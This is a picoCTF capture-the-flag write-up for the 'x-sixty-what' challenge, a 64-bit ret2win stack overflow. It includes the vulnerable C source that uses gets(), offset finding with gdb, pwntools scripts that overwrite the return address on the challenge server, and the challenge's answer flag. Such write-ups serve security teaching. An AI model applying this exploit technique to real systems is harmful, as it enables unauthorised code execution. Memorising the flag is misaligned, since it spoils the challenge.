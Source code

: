 # x-sixty-what
#### Write-up author: [jon-brandy](https://github.com/jon-brandy)
## DESCRIPTION:
Overflow x64 code 
Most problems before this are 32-bit x86.
Now we'll consider 64-bit x86 which is a little different! 
Overflow the buffer and change the return address to the `flag` function in this [program](https://github.com/jon-brandy/CTF-WRITE-UP/blob/74b33b7a185cb1fe916b413629149156f6765323/Asset/x-sixty-what/vuln). 
Download [source](https://github.com/jon-brandy/CTF-WRITE-UP/blob/74b33b7a185cb1fe916b413629149156f6765323/Asset/x-sixty-what/vuln.c). `nc saturn.picoctf.net 59713`
## HINTS:
1. Now that we're in 64-bit, what used to be 4 bytes, now may be 8 bytes.
2. Jump to the second instruction (the one after the first push) in the flag function, if you're getting mysterious segmentation faults.
## STEPS:
1. First, download both files given.
2. Next, let's whether the `program` file is stripped or not.

![image](https://user-images.githubusercontent.com/70703371/188832877-c1e6aeae-c8aa-4c98-acd2-f12fcde02077.png)

3. Great! Since it's not stripped so we can see all the functions name.
4. Now let's check the file protection.

![image](https://user-images.githubusercontent.com/70703371/188836157-9252437e-dff0-41d5-960b-45c88ed21166.png)

5. **No pie** and **no canary**, seems we can use the same method as usual.
6. But let's run the program, but make it executeable first by run -> `chmod +x vuln`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/188836557-0d6a510f-3c51-48c1-96bf-eddbfb322dc9.png)

7. Now let's analyze the source code.

> VULN.C

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}

```

8. At the `vuln()` function, we can take advantage of the `gets()` function to do bufferoverflow.

![image](https://user-images.githubusercontent.com/70703371/188837621-3209223f-60c9-42ff-af39-eda4e688d98e.png)

9. Since we can't see what address we jumped to, let's run the program using gdb and create pattern of strings.

![image](https://user-images.githubusercontent.com/70703371/188853146-978f0577-35e5-49e4-9271-3b2328640110.png)

10. Copy the strings, now run the program and paste the strings as input.

> RESULTS

![image](https://user-images.githubusercontent.com/70703371/188853468-31758b86-5ddf-4dc3-a559-9cae8b4559fd.png)

![image](https://user-images.githubusercontent.com/70703371/188853500-d2c10f45-f3b0-442e-8a8a-bf6c7e2f81f2.png)

11. Notice here, somehow **rip** does not have our input.

![image](https://user-images.githubusercontent.com/70703371/188854058-6e90c4d1-ba23-47ff-8ad5-c17670eb579a.png)

12. Let's see the pattern offset of **rsp** so we know the correct buffer.

![image](https://user-images.githubusercontent.com/70703371/188879246-34429dbe-e046-45a3-bbb3-42f0f78ebe94.png)

13. Hmm 72 for little endian.
14. Now we just need to find the `flag()` function's address.

![image](https://user-images.githubusercontent.com/70703371/188879464-7b9a2a3d-a657-4a2f-a336-875fb0a02f88.png)

```
address -> 0x401236
```

15. So i made a script in python to solve this, notice the concept is similiar to **ret2win**.

```py
from pwn import *
import os

os.system('clear')

addrFlag = 0x401236

sh = remote('saturn.picoctf.net', 56872)

p = b'A' * 72 # pattern offset of $rsp
p += p64(4198966) # flag address to decimal value

sh.recvuntil('\n')
sh.sendline(p)

sh.interactive()
```


![image](https://user-images.githubusercontent.com/70703371/188879874-e32fe1f7-3aa5-4668-855d-b4daec80c64c.png)


16. Got EOF, kinda confused why.
17. I think for the padding absolutely correct, might be the address not.
18. So i tried to disassmble the `flag()` function using gdb.

![image](https://user-images.githubusercontent.com/70703371/188880194-cd0cc8a1-a0bf-4582-9922-cf0caebe88ac.png)

19. Let's try this address, since it the data copied to rsp.

> NOTES

```
mov means in assembly -> The mov instruction copies the data item referred to by its second operand
```

![image](https://user-images.githubusercontent.com/70703371/188880448-6a21253f-2570-4dc9-94e1-c7783133039e.png)

> FINAL SCRIPT

```py
from pwn import *
import os

os.system('clear')

addrFlag = 0x000000000040123b

sh = remote('saturn.picoctf.net', 56872)

p = b'A' * 72 # pattern offset of $rsp
p += p64(4198971) # flag address to decimal value

sh.recvuntil('\n')
sh.sendline(p)

sh.interactive()
```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/188881487-1dfaf87a-af88-40f9-82ae-8076b2216d74.png)

20. Finally, we got the flag!

## FLAG

```
picoCTF{b1663r_15_b3773r_964d9987}
```

## LEARNING REFERENCES:

```
https://www.felixcloutier.com/x86/mov
```

